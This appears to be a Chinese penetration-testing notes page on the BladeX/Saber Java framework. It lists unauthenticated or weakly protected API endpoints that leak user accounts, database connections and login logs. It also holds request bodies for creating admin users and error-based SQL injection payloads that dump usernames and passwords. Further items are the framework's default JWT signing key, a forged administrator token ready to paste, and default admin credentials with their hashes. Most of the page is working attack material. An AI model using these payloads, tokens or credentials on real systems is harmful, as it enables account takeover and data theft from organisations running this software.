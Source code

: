 <https://blog.csdn.net/2301_80115097/article/details/141209675>
ico图标是🗡剑。
url里有/blade-特征。Saber框架。

官方demo：<https://saber3.bladex.cn/>
官方安全指南：<https://www.kancloud.cn/smallchill/blade-safety/3234105>
开发标准，未授权接口：
<https://www.kancloud.cn/smallchill/blade/1234959> 
<https://www.kancloud.cn/smallchill/blade/3198976>
在application.yml中配置

漏洞，以下主要是获取jwt后能操作。
```
/api/blade-user/user-list（用户账号密码）
/api/blade-auth/oauth/captcha
/api/blade-system/user/user-list
/api/blade-develop/datasource/list（泄露数据库连接）
/api/blade-log/api/list（泄露登录日志，包含登录用户名密码，可能翻倒明文）如果鉴权用注册账户来鉴权低权限访问。
/api/blade-log/logApi/list
/api/blade-test/



/api/blade-system/param/list 参数


/api/blade-user/submit（新增用户）post请求


{
"account": "admin1234",
"name": "GuestUser",
"password": "123456",
"tenantId": "000000",
"roleId": "1123598816738675201",
"deptId": "1123598816738675201",
"postId": "1123598816738675201"
}



{
"account": "admin123",
"name": "GuestUser",
"password": "123456by",
"tenantId": "000000",
"roleId": "1123598821738675201",
"deptId": "1123598821738675201",
"postId": "1123598821738675201",
   "roleId": "1123598816738675201",
        "deptId": "1123598813738675201",
        "postId": "0,1123598817738675201,",
        "mallId": 1,
        "companyId": "1628233399939338241",
        "tenantId": 501654
}



/api/blade-resource/oss/list（oss配置信息）

/api/blade-user/list
GET /api/blade-user/list?size=100\&current=2
/api/blade-user/list?updatexml(1,concat(0x7e,version(),0x7e),1)=1
/api/blade-user/list?updatexml(1,concat(0x7e,database(),0x7e),1)=1

/api/blade-log/error/list?updatexml(1,concat(0x7e,version(),0x7e),1)=1


/api/blade-system/dict-biz/list?updatexml(1,concat(0x7e,md5(1),0x7e),1)=1

post
/api/blade-desk/notice/list?updatexml(1,concat(0x7e,user(),0x7e),1)=1
```

jwt的密钥未改
默认
```
bladexisapowerfulmicroservicearchitectureupgradedandoptimizedfromacommercialproject
```
因此存在以下通用jwt
```
Blade-Auth: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZW5hbnRfaWQiOiIwMDAwMDAiLCJ1c2VyX25hbWUiOiJhZG1pbiIsInJlYWxfbmFtZSI6IueuoeeQhuWRmCIsImF1dGhvcml0aWVzIjpbImFkbWluaXN0cmF0b3IiXSwiY2xpZW50X2lkIjoic2FiZXIiLCJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIiwibGljZW5zZSI6InBvd2VyZWQgYnkgYmxhZGV4IiwicG9zdF9pZCI6IjExMjM1OTg4MTc3Mzg2NzUyMDEiLCJ1c2VyX2lkIjoiMTEyMzU5ODgyMTczODY3NTIwMSIsInJvbGVfaWQiOiIxMTIzNTk4ODE2NzM4Njc1MjAxIiwic2NvcGUiOlsiYWxsIl0sIm5pY2tfbmFtZSI6IueuoeeQhuWRmCIsIm9hdXRoX2lkIjoiIiwiZGV0YWlsIjp7InR5cGUiOiJ3ZWIifSwiYWNjb3VudCI6ImFkbWluIn0.RtS67Tmbo7yFKHyMz_bMQW7dfgNjxZW47KtnFcwItxQ


修改两个cookie直接进后台
saber-access-token
saber-refresh-token
/#/tool/datasource
```


## **sql注入注出密码**
<https://mp.weixin.qq.com/s?__biz=Mzg5NjU3NzE3OQ==&mid=2247490068&idx=1&sn=63a2427fb762c5e96aef490cf6b47637&chksm=c1fe240aa318297d960cff7945596779134ddc905d952623cba9ef024297fb15a693c279cb9f&mpshare=1&scene=23&srcid=0906trPOxcLTicx2WgtRTsOg&sharer_shareinfo=6cf2fed374261ab2e9a841a942b83ced&sharer_shareinfo_first=6cf2fed374261ab2e9a841a942b83ced#rd>

^
1-updatexml(1,concat(0x7e,database(),0x7e),1)=1

或者

1-extractvalue(1,concat(0x7e,database(),0x7e))=1

得到数据库名

![null](https://wiki.shikangsi.com/media/images/2024/08/23/d62ddc12-fef6-4cdf-aae0-4889a1959325-A9yJpugc.png)

注入出密码
```
/**/1/**/-extractvalue(1,concat(0x7e,database(),0x7e))=1

/**/1/**/-updatexml(1,concat(0x7e,(select+group_concat(account,0x7e,password)+from+数据库名.blade_user),1),1)=1

1-extractvalue(1,concat(0x7e,(select+group_concat(account,0x7e,password)+from+数据库名.blade_user),1))=1

图里用的 /**/代替空格，用+号也可以

注入blade_log_api表的params参数、
或者blade_log_error表的，可能有明文密码。
```


^
## **默认密码**
```
默认有账户admin
默认密码123456
10470c3b4b1fed12c3baac014be15fac67c6e815

密码123456by
709d88462910f1e2a71d4377000fb5e87bc463f7

```